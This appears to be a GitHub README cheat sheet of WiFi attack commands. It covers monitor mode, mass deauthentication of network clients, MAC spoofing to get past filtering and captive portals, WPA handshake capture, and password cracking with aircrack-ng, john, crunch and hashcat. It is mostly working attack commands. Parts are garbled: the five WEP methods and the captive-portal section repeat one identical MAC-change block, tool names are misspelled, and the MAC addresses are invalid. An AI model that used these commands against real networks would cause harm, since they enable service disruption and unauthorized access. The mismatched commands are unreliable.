 ## Table of Contents

* [General WiFi Information](#general-wifi-information)
* [Enabling Monitor mode](#enabling-monitor-mode)
* [Attack/PenTesting](#attackpentesting)
  * [Pre-connection Attacks](#Pre-connection-Attacks)
    * [MAC address changing](#MAC-address-changing)
    * [Deauthenticating All Clients From Protected WiFi Network](#Deauthenticating-All-Clients-From-Protected-WiFi-Network)
    * [Deauthenticating a Client From Protected WiFi Networks](#Deauthenticating-a-Client-From-Protected-WiFi-Networks)
  * [Gaining Access](#Gaining-Access)
    * [Discovering Names of Hidden Networks](#Discovering-Names-of-Hidden-Networks)
    * [Bypassing Mac Filtering (Blacklists & Whitelists)](#Bypassing-Mac-Filtering-(Blacklists-&-Whitelists))
    * [Bypassing Captive portals](#Bypassing-Captive-portals)
	* [WEP ](#others)
	* [WPA/WPA 2 ](###WPA/WPA2)
              .
	    * [Exploiting WPS ](#others)
	    * [Wordlist Attack ](#others)
	    * [Evil Twin Attack ](#others)
	* [WPA/WPA2 Enterpise](#others)
	* [Fake Access Point](#others)
  * [Post-connection Attacks](#injection)
    * [Capture data](#wepwpawpa2)
    * [Information Gathering](#wps)
    * [Bypass HTTPs](#others)
	* [Bypass router-side security features ](#others)
	* [MITM Attack ](#others)
	* [ARP spoofing](#others)
	* [DNS spoofing](#others)
	* [DoS Attack ](#others)
	* [Data Modification ](#others)
	* [Sniffing Cookies](#others)
	* [Session Hijacking](#others)
	* [Other Attacks](#others)
## Enabling Monitor mode
```Bash
  > iwconfig
  > airmon-ng check kill  
  > airmon-ng start wlan1 
  > airodump-ng wlan1mon 
    OR
  > airodump-ng --band a wlan1mon (show all type of wifi networks 5 Ghz or 2.4 Ghz)
  ```
  ## Pre-connection Attacks
### MAC address changing
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
 ### Deauthenticating All Clients From Protected WiFi Network
```Bash
  > airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0  
  ```
### Deauthenticating a Client From Protected WiFi Networks
```Bash
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
  ## Gaining Access
 ### Discovering Names of Hidden Networks
```Bash
  > airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
  > airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
 ### Bypassing Mac Filtering (Blacklists & Whitelists)
```Bash
  > ifconfig wlan0 down
  > macchanger -m 22:dd:33:44:55:66 wlan0  
  ```
  ### Bypassing Captive portals
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ### WEP 
  ##### Method 1 - Fake Authentication Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ##### Method 2 - ARP Replay Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
 ##### Method 3 - Chop Chop Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ##### Method 4 - Fragmentation Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ##### Method 5 - SKA (Shared Key Authentication) Type Cracking
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  
   ### WPA/WPA2
   #### Capture Handshake File
   
  ##### Method 1 - Fake Authentication Attack
```Bash
  > airodump-ng --bssid AP:MA:C0:EE:VV --channel 11 --write handshakefilename mon0
  > airplay-ng --deauth 4 -a AP:MA:C0:EE:VV -c CL:IE:NT:MA:C0 mon0
  ```
   #### Exploiting WPS
   ##### Method 1 - Fake Authentication Attack
```Bash
  > airodump-ng --bssid AP:MA:C0:EE:VV --channel 11 --write handshakefilename mon0
  > airplay-ng --deauth 4 -a AP:MA:C0:EE:VV -c CL:IE:NT:MA:C0 mon0
  ```
  #### Wordlist Attack
   ##### Method 1 - Using aircrack-ng
```Bash
  > aircrack-ng handshake.cap -w wordlist.txt
  ```
   
   ##### Method 2 - Saving Aircrack-ng Cracking Progress
```Bash
  > john --wordlist=wordlist.txt --stdout --session=upc | aircrack-ng -w - -b 00:uu:sd:23:56 handshake.cap
  > john --restore=upc | aircrack-ng -w - -b 00:uu:sd:23:56 handshake.cap
  ```
   ##### Method 3 - Using Huge Wordlists With Aircrack-ng Without Wasting Storage
```Bash
  > crunch 8 8 | aircrack-ng -b 00:uu:sd:23:56 -w - handshake.cap
  ```
   ##### Method 4 - Saving Cracking Progress When Using Huge Wordlists Without Wasting Storage
```Bash
  > crunch 8 8 | john --stdin --session=session1 --stdout | aircrack-ng -b 00:uu:sd:23:56 -w - handshake.cap
  > crunch 8 8 | john --stdin --restore=session1 | aircrack-ng -b 00:uu:sd:23:56 -w - handshake.cap
  ```
   ##### Method 5 - Cracking WPAWPA2 Much Faster Using GPU (hashcat - https://hashcat.net/hashcat/)
```Bash
  > //convert .hcap to .hccapx (https://hashcat.net/cap2hccapx/)
  > hashcat -m 2500 -d 1 handshake.hccapx wordlist.txt
  ```
